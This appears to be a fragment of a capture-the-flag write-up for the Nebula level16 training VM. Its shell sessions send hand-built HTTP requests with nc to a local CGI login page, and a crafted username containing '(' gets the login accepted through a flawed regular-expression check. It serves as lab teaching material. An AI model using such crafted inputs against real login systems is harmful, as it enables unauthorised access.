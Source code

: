 Failed login:
```
level16@nebula:/home/flag16$ echo -ne "GET /index.cgi?username=foo&password=bar HTTP/1.1\r\nHost: localhost:1616\r\n\r\n" | nc localhost 1616
HTTP/1.0 200 OK
Content-type: text/html

<html><head><title>Login resuls</title></head><body>Your login failed<br/>Would you like a cookie?<br/><br/></body></html>
```

egrep error behaviour (stderr):
```
level16@nebula:/home/flag16$ egrep '(' /home/flag16/userdb.txt
egrep: Unmatched ( or \(
```

```
level16@nebula:/home/flag16$ echo -ne "GET /index.cgi?username=(&password= HTTP/1.1\r\nHost: localhost:1616\r\n\r\n" | nc localhost 1616
HTTP/1.0 200 OK
Content-type: text/html

<html><head><title>Login resuls</title></head><body>Your login was accepted<br/>Would you like a cookie?<br/><br/></body></html>
```

## References

* http://perldoc.perl.org/perlop.html#Regexp-Quote-Like-Operators
